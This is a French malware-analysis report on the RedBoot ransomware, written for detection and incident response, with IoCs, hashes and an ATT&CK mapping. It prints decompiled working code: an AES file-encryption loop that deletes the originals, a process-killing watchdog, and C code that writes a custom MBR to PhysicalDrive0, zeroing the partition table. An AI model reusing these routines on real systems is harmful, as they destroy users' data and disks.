



# RedBoot (KillMBR.gff) : locker AutoIt AES + MBR qui efface la table de partitions

Langue : Français | English version: [README_EN.md](README_EN.md)

**Sample :** `sample.bin` (copie du dump `new/Trojan.Win32.KillMBR.gff-1001a8c7…`)  
**Famille :** RedBoot / Kaspersky `Trojan.Win32.KillMBR.gff` / Trend Micro `RANSOM_REDBOOT.A`  
**Note / magic :** écran boot rouge, e-mail `redboot@memeware.net`, fichiers `*.locked`  
**Sources :** PE UPX + script AutoIt EA06 + Hex-Rays de `overwrite.exe` (`artefacts/ida_export/mbrover_main.c`)

Ce build 2017 se présente comme un rançongiciel : il chiffre quelques dossiers utilisateur en AES-256 (CryptoAPI) puis redémarre sur un MBR custom. Le SOC voit surtout l’extension `.locked`, le dossier `%USERPROFILE%\<8 chiffres>`, et un disque 0 dont le secteur 0 n’a **plus de table de partitions**. La clé fichiers est une fonction du nom d’utilisateur Windows ; la destruction du MBR n’a **pas** de prompt de recovery.

> Analyse **défensive / IR**. Aucune exécution du locker sur l’hôte. `overwrite.exe` n’a pas écrit sur un disque. `boot.bin` a été assemblé hors bande avec le NASM 2.07 **extrait** (compilateur, pas le payload MBR).

---

## TL;DR

- **RedBoot, AutoIt 3.3.14.2 packé UPX**, PE32 GUI 1 246 725 octets, TimeDateStamp **2017-09-17**, `#AutoIt3Wrapper_Outfile=RedBoot.exe`.
- **Porte développeur :** si `@UserName == "Kitty"` le script `Exit` (machine de l’auteur `C:\Users\Kitty\Desktop\…`).
- **Impact disque :** NASM assemble `boot.asm` → 512 octets, `overwrite.exe` écrit tout le fichier sur `\\.\PhysicalDrive0`. Table de partitions à `0x1BE` = **64 zéros**. Écran `int 10h` rouge + `jmp $`.
- **Impact fichiers :** AES-256 CAPI, suffixe `.locked`, seulement Desktop / Documents / Downloads / Pictures / Videos / Music, fichiers **< 50 MiB**.
- **Visibles :** `protect.exe` tue `Taskmgr.exe` et `ProcessHacker.exe` en boucle ; e-mail **`redboot@memeware.net`** ; ID = SHA1(SHA1(username)).
- **Pas de wallpaper**, pas de note Bureau, pas de C2 réseau, pas de VSS. Reboot `Shutdown($SD_REBOOT)` après le walk.
- **Pas de clé privée auteurs.** La couche fichiers est déterministe (username). Le MBR custom n’offre **aucun** déverrouillage.

---

## 0. Synthèse code

Format empilé (observation, puis confirmation en dessous).

- **PE32 UPX** 1 246 725 octets, EP stub `0x1B2AE0`, unpack → 1 723 397 octets, AutoIt product **3.3.14.2**
  → [pe_packed.txt](artefacts/pe_packed.txt) · [pe_info.txt](artefacts/pe_info.txt)

- **Script AutoIt EA06** ressource `RT_RCDATA` / `SCRIPT` (~866 Ko, entropie 8,0)
  → [RedBoot.au3](artefacts/payloads/RedBoot.au3) · logique courte [RedBoot_payload.au3](artefacts/payloads/RedBoot_payload.au3)

- **Gate auteur** `Kitty`
  → `If @UserName == "Kitty" Then Exit`

- **Drops** dans `%USERPROFILE%\<Random 8 digits>\` : `overwrite.exe`, `assembler.exe`, `boot.asm`, `protect.exe`, `main.exe`
  → [drops.txt](artefacts/drops.txt)

- **MBR** message `redboot@memeware.net`, magic `55 AA`, partition table nulle
  → [boot.asm](artefacts/payloads/boot.asm) · [boot.bin](artefacts/payloads/boot.bin) · [boot_layout.txt](artefacts/boot_layout.txt)

- **Writer MBR** MinGW/TDM-GCC 4.9.2, `main` @ `0x401500`
  → [mbrover_main.c](artefacts/ida_export/mbrover_main.c)

- **Crypto** AES-256 / `CryptDeriveKey` / suffixe `.locked` / seuil 50 MiB
  → [crypto_kdf.txt](artefacts/crypto_kdf.txt)

- **Watchdog** AutoIt `protect.exe`
  → [protect.au3](artefacts/payloads/protect.au3)

- **Pas de wallpaper** (`SystemParametersInfo` absent du script métier)

---

## 0bis. Chaîne d’attaque et schémas

Toutes les étapes sont **lues dans le script / Hex-Rays**. Aucune n’a été jouée live (x32dbg `NO_TARGET`, pas d’Any.RUN fourni).

1. **Entry.** Stub UPX puis interpréteur AutoIt, manifeste `requireAdministrator` + `#RequireAdmin`.
2. **Gate.** `@UserName == "Kitty"` → exit immédiat.
3. **Préparation.** Dossier `%USERPROFILE%\<8 chiffres>` ; `ENCKEY = SHA1(@UserName)` ; `IDKEY = SHA1(ENCKEY)`.
4. **Drops.** `FileInstall` de quatre blobs ; `Run(protect.exe)` ; `FileMove` du launcher vers `main.exe`.
5. **Patch MBR source.** Remplace 40 `x` dans `boot.asm` par `IDKEY`.
6. **Assemble.** `assembler.exe -f bin boot.asm -o boot.bin` (NASM 2.07) puis suppression de `boot.asm` et `assembler.exe`.
7. **Wipe MBR.** `overwrite.exe boot.bin` → `CreateFileA(\\.\PhysicalDrive0, GENERIC_ALL)` + `WriteFile` de 512 octets.
8. **Encrypt.** Six dossiers profil, fichiers `< 50 MiB`, AES-256, `.locked`, `FileDelete` de l’original.
9. **Reboot.** `Shutdown($SD_REBOOT)`. Au POST : écran rouge, note, hang `jmp $`.

### S1 — Flux global



### S2 — Secteur 0



### S3 — Fichier



---

## 0ter. Hunting / ce que le SOC collecte

| Signal | Où le chercher |
|--------|----------------|
| Extension `.locked` (nom original conservé) | EDR fichier, partages |
| Dossier `%USERPROFILE%\########` + `overwrite.exe` / `protect.exe` / `main.exe` / `boot.bin` | Disk, Prefetch, Amcache |
| `CreateFile` `\\.\PhysicalDrive0` GENERIC_ALL | Sysmon 12/13/17, kernel callbacks |
| Process `protect.exe` + kill `Taskmgr.exe` / `ProcessHacker.exe` | EDR process terminate |
| `nasm -f bin … boot.asm -o boot.bin` | cmdline |
| E-mail `redboot@memeware.net` dans le 1er secteur | forensic disque, YARA MBR |
| AutoIt `RedBoot.exe` / VERSION 3.3.14.2 / UPX `UPX0`/`UPX1` | static / VT |
| Username `Kitty` (machine auteur, **pas** victime) | contexte TI seulement |

---

## 1. PE / point d’entrée

### À quoi ça sert ?

Le fichier livré est un **compilé AutoIt** compressé UPX. L’utilisateur lance un `.exe` classique ; Windows élève via le manifeste ; AutoIt déroule le script embarqué dans la ressource `SCRIPT`. Le « vrai » malware tient en ~40 lignes ; le reste du `.au3` décompilé, ce sont les includes `Array.au3` / `File.au3` / `Crypt.au3`.

### Launcher packé

| Champ | Valeur |
|-------|--------|
| SHA256 | `1001a8c7f33185217e6e1bdbb8dba9780d475da944684fb4bf1fc04809525887` |
| SHA1 | `d47f6f7e553c4bc44a2fe88c2054de901390b2d7` |
| MD5 | `e0340f456f76993fc047bc715dfdae6a` |
| Taille | 1 246 725 (Trend Micro `RANSOM_REDBOOT.A` cite **la même** taille) |
| Machine | PE32 |
| TimeDateStamp | `0x59BDF65A` = **2017-09-17 04:13:14 UTC** |
| Packer | UPX (`UPX!` @ `0x3E0`) |
| Manifest | `requestedExecutionLevel requireAdministrator` |

### Unpacked

| Champ | Valeur |
|-------|--------|
| SHA256 | `f2d0720af6402e3857ccabde8204a6f231c120d76d39750c09dab3acbe145fee` |
| Taille | 1 723 397 |
| EP RVA | `0x27F4A` (stub AutoIt) |
| VERSION | FileVersion `1.0.0.0`, ProductVersion **`3.3.14.2`**, Comment/Description `None` |
| Ressource critique | Type 10 (`RT_RCDATA`) nom `SCRIPT`, 866 284 octets, entropie 8,000 |

Imports launcher : beaucoup d’APIs kernel32 (runtime AutoIt) dont `CreateFileW`, `WriteFile`, `DeviceIoControl`, `SetSystemPowerState`, plus `InitiateSystemShutdownExW`, `ExitWindowsEx`, `ShellExecuteW`. Le wipe disque **n’utilise pas** ces imports : il est délégué à `overwrite.exe`.

---

## 2. Init / gate / drops

### 2.1 À quoi ça sert ?

Avant tout dégât, le script se reconnaît : sur le PC de l’auteur (`Kitty`) il ne fait rien. Sinon il crée un dossier au hasard sous le profil, calcule deux empreintes SHA1, et pose ses outils. C’est une organisation « kit » : un assembleur légitime, un writer C++, un killer AutoIt, un source MBR.

### 2.2 Code métier (extrait)

```autoit
If @UserName == "Kitty" Then
    Exit
EndIf
$RNAME = Random(10000000, 99999999, 1)
$WD = @HomeDrive & @HomePath & "\" & $RNAME
DirCreate($WD)
$ENCKEY = StringReplace(_CRYPT_HASHDATA(@UserName, $CALG_SHA1), "0x", "")
$IDKEY  = StringReplace(_CRYPT_HASHDATA($ENCKEY, $CALG_SHA1), "0x", "")
FileInstall("C:\Users\Kitty\Desktop\shared2\mbrover.exe", $WD & "\overwrite.exe")
FileInstall("C:\Users\Kitty\Desktop\assembler.exe", $WD & "\assembler.exe")
FileInstall("C:\Users\Kitty\Desktop\mbrover\mbr.asm", $WD & "\boot.asm")
FileInstall("C:\Users\Kitty\Desktop\Myriad\Concept Testing\TMkill.exe", $WD & "\protect.exe")
Run("""" & $WD & "\protect.exe""")
FileMove(@ScriptFullPath, $WD & "\main.exe")
```

Chemins de compile (`Kitty\Desktop\shared2`, `mbrover`, `Myriad\Concept Testing`) : artefact auteur, pas un chemin victime.

### 2.3 assembler.exe

NASM **2.07** compilé le 19 juillet 2009 (`The Netwide Assembler 2.07`). Usage malware : `nasm -f bin boot.asm -o boot.bin`. Ce binaire n’est pas un encryptor.

---

## 3. Effets collatéraux

### 3.1 Wallpaper

Aucun. Pas de BMP/JPG embarqué métier, pas d’appel `SystemParametersInfo` dans le script RedBoot. Les icônes ressource (type 3 / 14) sont celles du stub AutoIt.

### 3.2 Note Bureau

Aucune `README.txt`. La rançon n’existe **que** dans le MBR, donc seulement après reboot (ou dump du secteur 0).

### 3.3 protect.exe

Second AutoIt (`#RequireAdmin`, même famille de stub) :

```autoit
While True
    If ProcessExists("Taskmgr.exe") Then
        ProcessClose("Taskmgr.exe")
    EndIf
    If ProcessExists("ProcessHacker.exe") Then
        ProcessClose("ProcessHacker.exe")
    EndIf
WEnd
```

Lancé avec `Run` (non `RunWait`) : il tourne pendant l’assemble / le wipe / le chiffrement.

---

## 4. Élévation / UAC

- Manifeste embedded : `requireAdministrator`.
- Directive AutoIt `#RequireAdmin` (re-lancement élevé si besoin).
- `overwrite.exe` ouvre `\\.\PhysicalDrive0` en `GENERIC_ALL` (`0x10000000`) : sans admin, `CreateFileA` échoue et le wipe n’a pas lieu (le reste du script continue quand même vers l’encrypt / reboot).

---

## 5. Anti-recovery

Pas de `vssadmin`, pas de `bcdedit`, pas de wipe logs. L’anti-analyse visible :

| Mécanisme | Détail |
|-----------|--------|
| Kill Task Manager / Process Hacker | boucle `protect.exe` |
| Reboot immédiat | plus de session Windows pour trier les `.locked` |
| MBR + table de partitions | le volume système n’est plus décrit au BIOS/UEFI CSM |
| `#NoTrayIcon` | pas d’icône AutoIt |

---

## 6. Walk / exclusions / catégories

### À quoi ça sert ?

Ce n’est **pas** un walk disque entier. Six dossiers profil, récursif, toutes les extensions, **sauf** fichiers ≥ 50 MiB. Un ISO / une vidéo lourde sur le Bureau passe à travers. Un `.docx` de 2 Mo devient `.docx.locked` et l’original est effacé.

Dossiers (chemins AutoIt) :

- `@HomeDrive & @HomePath & "\Desktop"`
- `\Documents`
- `\Downloads`
- `\Pictures`
- `\Videos`
- `\Music`

Pas de liste d’extensions. Pas de skip `Windows` : ces dossiers n’y sont simplement pas. Pas de walk `C:\` ni des shares.

---

## 7. Crypto

### 7.1 À quoi ça sert ?

Chaque fichier ciblé est chiffré avec l’API Windows (`CryptEncrypt`), algorithme **AES-256**. La « clé » passée à AutoIt est la chaîne hex SHA1 du nom d’utilisateur. CryptoAPI en dérive une clé AES via `CryptDeriveKey` (hash interne **MD5** par défaut dans `Crypt.au3`). Il n’y a pas d’enveloppe RSA, pas de nonce par fichier documenté, pas de footer magic. Un IR qui connaît le username peut **en principe** rejouer le KDF ; ça ne répare pas le secteur 0.

### 7.2 KDF et ID victime

```
ENCKEY = SHA1(@UserName)           → 40 hex (préfixe AutoIt "0x" retiré)
IDKEY  = SHA1(ENCKEY_ascii)        → 40 hex collés dans le MBR
```

`IDKEY` n’est **pas** la clé AES ; c’est un identifiant affiché pour l’e-mail. La clé fichiers est `ENCKEY`.

### 7.3 Politique taille / rename

| Règle | Valeur |
|-------|--------|
| Primitive | `CALG_AES_256` (26128) |
| Seuil | `< 52428800` octets (50 MiB), sinon skip |
| Chunk | 1 MiB (`FileRead` 1024*1024), dernier bloc `Final=True` |
| Rename | `original.ext` → `original.ext.locked` |
| Original | `FileDelete` après succès de l’API |

### 7.4 Code

```autoit
Func ENCRYPTDIRECTORY($DIR, $KEY)
    If FileExists($DIR) Then
        $A_FILES = _FILELISTTOARRAYREC($DIR, "*", $FLTAR_FILES, $FLTAR_RECUR, $FLTAR_NOSORT)
        For $I = 1 To $A_FILES[0]
            If FileGetSize($DIR & "\" & $A_FILES[$I]) < 52428800 Then
                _CRYPT_ENCRYPTFILE($DIR & "\" & $A_FILES[$I], _
                    $DIR & "\" & $A_FILES[$I] & ".locked", $KEY, $CALG_AES_256)
                FileDelete($DIR & "\" & $A_FILES[$I])
            EndIf
        Next
    EndIf
EndFunc
```

**Pas de clé privée auteurs dans le sample.** Phrase IR : collecter le username Windows et un dump du secteur 0 (IDKEY) ; ne pas payer `memeware.net`.

---

## 8. Note de rançon (MBR)

### À quoi ça sert ?

Au boot, le BIOS charge 512 octets en `0x7C00`. Le stub efface l’écran en rouge (`AH=07`, `BH=0x4F`), imprime un message ASCII, puis boucle. Sans table de partitions, le firmware ne trouve plus Windows. L’e-mail est le seul canal.

Texte (faute `it's` conservée) :

```
This computer and all of it's files have been locked! Send an email to
redboot@memeware.net containing your ID key for instructions on how to
unlock them. Your ID key is <40 hex>
```

Fichier : [mbr_note.txt](artefacts/mbr_note.txt)

Layout assemblé (placeholder `x` × 40) : 512 octets, `55 AA` en fin, **64 zéros** à `0x1BE`. C’est exactement la table de partitions MBR classique. Les articles 2017 (BleepingComputer / SecurityWeek) décrivent ce wipe : le sample le confirme octet par octet.

`overwrite.exe` n’a **pas** de check de taille : il écrit `GetFileSize(boot.bin)` octets depuis LBA 0. Ici 512. Un `boot.bin` plus gros casserait les secteurs suivants.

Hex-Rays nettoyé (`_main` @ `0x401500`) :

```c
int main(int argc, char **argv)
{
    HANDLE disk = CreateFileA("\\\\.\\PhysicalDrive0",
        0x10000000 /* GENERIC_ALL */, 3 /* READ|WRITE share */,
        NULL, 3 /* OPEN_EXISTING */, 0, NULL);
    HANDLE bin = CreateFileA(argv[1], 0x80000000 /* GENERIC_READ */,
        0, NULL, 3, 0, NULL);
    DWORD sz = GetFileSize(bin, NULL);
    void *buf = operator new[](sz);
    DWORD n = 0;
    ReadFile(bin, buf, sz, &n, NULL);
    WriteFile(disk, buf, sz, &n, NULL);
    CloseHandle(bin);
    CloseHandle(disk);
    _getch();   /* attend une touche — RunWait AutoIt bloque dessus */
    return 0;
}
```

Chaîne compilateur : `GCC: (tdm64-1) 4.9.2`. Gros runtime libstdc++ / winpthreads : le métier tient dans cette `main`.

---

## 9. Timeline

| Quand | Fait |
|-------|------|
| 2009-07-19 | NASM 2.07 (blob `assembler.exe`) |
| 2017-09-16 18:11 UTC | TimeDateStamp `overwrite.exe` (`mbrover.exe`) |
| 2017-09-17 02:57 UTC | TimeDateStamp `protect.exe` / TMkill |
| 2017-09-17 04:13 UTC | TimeDateStamp launcher AutoIt |
| 2017-09-23 | Premiers write-ups publics (BleepingComputer, taille identique côté Trend Micro) |
| 2026-10-04 | Analyse statique ce dossier (pas d’exec hôte) |

Ordre **runtime** prévu par le script : protect → patch asm → nasm → wipe MBR → encrypt 6 dossiers → reboot. Le wipe **précède** le chiffrement : une interruption au milieu laisse déjà un secteur 0 détruit.

---

## 10. IoCs

### Highest-value

| Signal | Valeur |
|--------|--------|
| E-mail MBR | `redboot@memeware.net` |
| Extension | `.locked` |
| Device | `\\.\PhysicalDrive0` |
| Drops | `overwrite.exe`, `protect.exe`, `boot.bin`, `main.exe` |
| Gate auteur | username `Kitty` |
| Outfile compile | `RedBoot.exe` |
| MBR magic + PT | `55 AA` et 64 zéros @ `0x1BE` |

### Exhaustif

| Type | Valeur |
|------|--------|
| SHA256 packed | `1001a8c7f33185217e6e1bdbb8dba9780d475da944684fb4bf1fc04809525887` |
| MD5 packed | `e0340f456f76993fc047bc715dfdae6a` |
| SHA1 packed | `d47f6f7e553c4bc44a2fe88c2054de901390b2d7` |
| SHA256 unpacked | `f2d0720af6402e3857ccabde8204a6f231c120d76d39750c09dab3acbe145fee` |
| SHA256 overwrite.exe | `f2bc5886b0f189976a367a69da8745bf66842f9bba89f8d208790db3dad0c7d2` |
| SHA256 protect.exe | `e61a8382f7293e40cb993ddcbcaa53a4e5f07a3d6b6a1bfe5377a1a74a8dcac6` |
| SHA256 assembler.exe (NASM) | `2a5305369edb9c2d7354b2f210e91129e4b8c546b0adf883951ea7bf7ee0f2b2` |
| Mutex | aucun dans le script métier |
| Note / wallpaper | MBR seulement / pas de wallpaper |
| Chemin live | `%HOMEDRIVE%%HOMEPATH%\<8 digits>\` |
| CLI NASM | `-f bin "<WD>\boot.asm" -o "<WD>\boot.bin"` |
| Process kill | `Taskmgr.exe`, `ProcessHacker.exe` |
| Détections | Kaspersky `Trojan.Win32.KillMBR.gff`, Trend `RANSOM_REDBOOT.A` |

Table complète : [hashes.txt](artefacts/hashes.txt).

---

## 11. ATT&CK

| ID | Technique | Comportement observé |
|----|-----------|----------------------|
| T1027.002 | Software Packing | UPX `UPX0`/`UPX1`, magic `UPX!` |
| T1059 | Command and Scripting Interpreter | AutoIt 3.3.14.2, ressource `SCRIPT` EA06 |
| T1548.002 | Bypass User Account Control | manifeste `requireAdministrator` + `#RequireAdmin` |
| T1562.001 | Impair Defenses | `protect.exe` tue Task Manager et Process Hacker |
| T1070.004 | File Deletion | `FileDelete` originaux après `.locked` ; delete `boot.asm` / `assembler.exe` |
| T1486 | Data Encrypted for Impact | AES-256 CAPI, suffixe `.locked`, 6 dossiers profil, seuil 50 MiB |
| T1561.002 | Disk Structure Wipe | `WriteFile` 512 o sur `PhysicalDrive0`, PT @ `0x1BE` à zéro |
| T1529 | System Shutdown/Reboot | `Shutdown($SD_REBOOT)` |
| T1036 | Masquerading | VERSION `None` / `1.0.0.0`, drops `overwrite`/`protect`/`main` |

---

## 12. Captures / live

- x32dbg MCP : **`NO_TARGET`** (sample non chargé).
- Any.RUN : **pas d’URL fournie**.
- `boot.bin` reconstruit en statique (NASM extrait + `boot.asm` placeholder). Un run victime aurait un IDKEY différent donc un hash `boot.bin` différent.

---

## 13. Fichiers produits

Libellés courts (cliquables) ; chemins sous `artefacts/` et à la racine du dossier.

| Groupe | Fichier | Rôle |
|--------|---------|------|
| Rapport | [README.md](README.md) | FR |
| Rapport | [README_EN.md](README_EN.md) | EN |
| Sample | [sample.bin](sample.bin) | Launcher UPX |
| Sample | [sample_unpacked.exe](sample_unpacked.exe) | UPX -d |
| Script | [RedBoot_payload.au3](artefacts/payloads/RedBoot_payload.au3) | Logique métier |
| Script | [RedBoot.au3](artefacts/payloads/RedBoot.au3) | Décompil complet + includes |
| Script | [protect.au3](artefacts/payloads/protect.au3) | Killer Taskmgr |
| Drop | [overwrite.exe](artefacts/payloads/overwrite.exe) | Writer MBR |
| Drop | [protect.exe](artefacts/payloads/protect.exe) | AutoIt watchdog |
| Drop | [assembler.exe](artefacts/payloads/assembler.exe) | NASM 2.07 |
| MBR | [boot.asm](artefacts/payloads/boot.asm) | Source 16-bit |
| MBR | [boot.bin](artefacts/payloads/boot.bin) | 512 o placeholder |
| MBR | [boot_layout.txt](artefacts/boot_layout.txt) | Offsets secteur 0 |
| MBR | [mbr_note.txt](artefacts/mbr_note.txt) | Texte rançon |
| IDA | [mbrover_main.c](artefacts/ida_export/mbrover_main.c) | Hex-Rays `main` |
| Crypto | [crypto_kdf.txt](artefacts/crypto_kdf.txt) | SHA1 / AES-256 |
| PE | [pe_packed.txt](artefacts/pe_packed.txt) | UPX |
| PE | [pe_info.txt](artefacts/pe_info.txt) | Unpacked |
| PE | [imports.txt](artefacts/imports.txt) | IAT launcher |
| PE | [embedded_manifest.xml](artefacts/embedded_manifest.xml) | requireAdmin |
| Listes | [hashes.txt](artefacts/hashes.txt) | Hashes |
| Listes | [drops.txt](artefacts/drops.txt) | Noms live |
| Script | [extract_redboot.py](artefacts/extract_redboot.py) | Re-extract AutoIt |

---

## 14. Références + non vérifié

- Lawrence Abrams, *Ransomware or Wiper? RedBoot Encrypts Files but also Modifies Partition Table*, BleepingComputer, 2017-09-23.
- SecurityWeek, *RedBoot Ransomware Modifies Master Boot Record*, 2017-09-25.
- Trend Micro, `RANSOM_REDBOOT.A` (taille 1 246 725 — ce sample).
- Kaspersky : `Trojan.Win32.KillMBR.gff`.

**Non vérifié / hors scope**

- Exécution hôte du locker, walk live, reboot réel.
- Any.RUN / sandbox tierce (pas d’URL).
- x32dbg / x64dbg sur ce PE.
- Déchiffrement d’un `.locked` de victime (KDF documenté, pas de decryptor livré).
- `boot.bin` live avec un vrai IDKEY (artefact = placeholder `x`).
- Comportement exact de `_getch()` sous `RunWait` sans console (peut bloquer `overwrite.exe` jusqu’à une touche).
- Encodage exact des octets `@UserName` dans `CryptHashData` (ANSI AutoIt 3.3 vs UTF-16) sur toutes les locales.
- Campagnes, volumes, géographie : **non inventés**.
